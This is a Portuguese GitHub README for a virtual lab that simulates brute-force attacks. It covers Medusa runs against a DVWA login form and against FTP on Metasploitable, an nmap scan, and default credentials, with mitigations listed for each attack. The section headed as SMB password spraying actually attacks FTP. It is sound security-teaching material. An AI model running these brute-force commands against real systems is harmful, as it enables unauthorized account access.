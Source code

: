 # 💻 Simulação de Ataques em Ambiente Virtual

Este projeto demonstra a configuração de um ambiente virtual para simulação de ataques cibernéticos utilizando ferramentas como Kali Linux, Metasploitable e Medusa. O objetivo é estudar técnicas de força bruta e password spraying em serviços vulneráveis.

## 🧰 Ambiente Utilizado

- **VirtualBox** para virtualização
- **Kali Linux** como máquina atacante
- **Metasploitable** como máquina vulnerável

## 🎯 Objetivos

- Simular ataques de força bruta em FTP
- Automatizar tentativas de login em formulário web (DVWA)
- Realizar password spraying em SMB com enumeração de usuários
- 
---

## 🛠️ Preparação Inicial

Antes de iniciar os testes, é importante garantir que o ambiente virtual esteja corretamente configurado e conectado.

### 🔄 Criar Snapshot de Segurança

Antes de qualquer alteração, crie um **snapshot** no Metasploitable para garantir um ponto de restauração em caso de falhas ou erros durante os testes.

1. Acesse o sistema e clique no campo "Máquina" e em seguida "Criar snapshot".
2. O ideal é escrever tudo com letras minúsculas, sem espeço e não utilizar acentos ou caracteres especiais.

```text
configuracaoinicial
```

### 🔐 Acesso ao Metasploitable

1. Inicie a máquina **Metasploitable**.
2. Faça login com as seguintes credenciais:

```text
Usuário: msfadmin  
Senha: msfadmin
```
3. Descubra o ip da máquina

```bash
ip a
```

### 📡 Verificar Conectividade com Kali Linux

Com o ip do Metasploitable faça o teste para verificar a conectividade, no terminal da máquina **Kali Linux**, execute o seguinte comando:

```bash
ping -c 3 \\inserir o ip encontrado anteriormente
```

Se o retorno for positivo, o ambiente está pronto para iniciar os testes.

---
## 🔐 Ataque de Força Bruta em Formulário Web (DVWA)

### 📋 Descrição

Ataque de força bruta para descobrir credenciais de login em um formulário web vulnerável.

### 🧪 Procedimento

1. Acesse o modo desenvolvedor do navegador (`F12`) e vá até a aba **Network** para identificar os parâmetros enviados pelo formulário.
2. Crie listas de usuários e senhas através dos comandos abaixo:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

3. Execute o ataque com o Medusa utilizando o seguinte comando:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

4. O Medusa exibirá os testes realizados e indicará o usuário válido através da seguinte mensagem `SUCCESS`.

### 🛡️ Mitigação

- Utilização de bibliotecas de autenticação robustas
- Implementação de CAPTCHA
- Autenticação multifator (2FA)

---

## 🧨 Password Spraying em SMB com Enumeração de Usuários

### 📋 Descrição

O ataque de password spraying em serviços SMB após enumeração de usuários e portas abertas.

### 🧪 Procedimento

1. Enumere os serviços disponíveis:

```bash
nmap -sV -p 21,80,445,139 192.168.56.101
```

2. Verifique se o serviço FTP está ativo:

```bash
ftp 192.168.56.101
```

3. Crie listas de usuários e senhas:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

4. Execute o ataque com o Medusa:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

5. O Medusa indicará sucesso com a mensagem `SUCCESS`.

6. Valide o acesso via FTP com as credenciais obtidas:

```bash
ftp 192.168.56.101
```

### 🛡️ Mitigação

- Políticas de senha fortes (letras, números e caracteres especiais)
- Troca periódica de senhas
- Restrição de tentativas de login

---

## 📎 Observações

Este projeto é apenas para fins educacionais criado a partir dos estudos em cybersecurity.
